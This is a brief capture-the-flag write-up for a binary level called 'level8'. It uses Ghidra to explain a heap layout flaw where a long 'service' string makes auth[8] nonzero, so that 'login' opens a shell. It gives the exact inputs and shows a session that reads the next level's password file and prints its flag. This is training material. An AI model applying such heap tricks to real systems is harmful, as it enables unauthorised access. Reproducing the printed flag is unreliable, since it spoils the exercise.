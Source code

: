 # level8

Run level8 exec and check in ghidra.
We see this is composed of just 1 long main function, it has an infinite loop that asks for user input. 
The program prints "nil" twice and waits for stdin.

In the end it will check if auth[8] == 0 if it isn't we will have access to /bin/sh.
auth is undefined4 type so auth[8] is auth + 32 bytes

> Ghidra uses placeholder values for variable since it does not know real type. These placeholder type size can be inconsistent, so a uint8_t or uint16_t on ghidra might be a different size.

Input "auth \n" to malloc(4) auth var
input "service0123456789abcdef\n" to stdup input+7

We see that auth var is at 0x804a008and service var at 0x804a018 (16 bytes padding)
so auth+32 == "\n" (end of service)

> we can input "login" and get the flag

    $ ./level8 
    (nil), (nil) 
    auth 
    0x804a008, (nil) 
    service0123456789abcdef
    0x804a008, 0x804a018 
    login
    $ cat /home/user/level9/.pass
    c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a